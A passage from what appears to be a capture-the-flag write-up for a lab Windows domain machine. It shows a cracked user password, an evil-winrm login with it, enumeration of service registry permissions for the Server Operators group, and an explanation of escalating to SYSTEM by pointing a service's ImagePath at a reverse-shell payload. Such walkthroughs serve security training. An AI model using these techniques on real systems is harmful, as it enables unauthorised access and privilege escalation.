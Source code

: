 ```bash
Stopped: Thu Jun 11 20:40:51 2020
```

We cracked the hash of `Jorden` and got the password `rainforest786`. Now we can revert our changes again to stop others from skipping our previous steps and immediately privesc to Jorden from Initial Shell (this is a design issue this box has. Maybe a automated job to revert the changes every couple of minutes would have helped...).

``` powershell
*Evil-WinRM* PS C:\Users\sbauer\Documents> Get-ADUser Jorden | Set-ADAccountControl -doesnotrequirepreauth $false
```

We can now use evil-winrm and login with the cracked password.

```bash
root@darkness:~# evil-winrm -i 10.10.10.179 -u 'MEGACORP\jorden' -p 'rainforest786'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\jorden\Documents>
```

### Privesc Jorden - Root

Now that we have a shell as `Jorden` let enumerate the system.

#### Enumeration as Jorden

Checking out the permissions for the services.

```powershell
*Evil-WinRM* PS C:\Users\jorden\Documents> $acl = Get-ACL "HKLM:\System\CurrentControlSet\Services"
*Evil-WinRM* PS C:\Users\jorden\Documents> ConvertFrom-SddlString -Sddl $acl.Sddl | Foreach-Object {$_.DiscretionaryAcl}
NT AUTHORITY\Authenticated Users: AccessAllowed (ExecuteKey, ListDirectory, ReadExtendedAttributes, ReadPermissions, WriteExtendedAttributes)
NT AUTHORITY\SYSTEM: AccessAllowed (ChangePermissions, CreateDirectories, Delete, ExecuteKey, FullControl, GenericExecute, GenericWrite, ListDirectory, ReadExtendedAttributes, ReadPermissions, TakeOwnership, Traverse, WriteData, WriteExtendedAttributes, WriteKey)
BUILTIN\Administrators: AccessAllowed (ChangePermissions, CreateDirectories, Delete, ExecuteKey, FullControl, GenericExecute, GenericWrite, ListDirectory, ReadExtendedAttributes, ReadPermissions, TakeOwnership, Traverse, WriteData, WriteExtendedAttributes, WriteKey)
BUILTIN\Server Operators: AccessAllowed (CreateDirectories, Delete, ExecuteKey, GenericExecute, ListDirectory, ReadExtendedAttributes, ReadPermissions, WriteData, WriteExtendedAttributes, WriteKey)
```

`Jorden` is part of `Server Operators` group and therefore has write permission over certain services.

#### Way 1: Code execution with Path Hijacking

We can now simply change the `ImagePath` (binary location) of any service and start it. The service will execute the `ImagePath` as a privileged process giving as full access over the system. The `ImagePath` can be simply changed to a reverse-shell payload as done previously (RCE via Visual Code debugger).

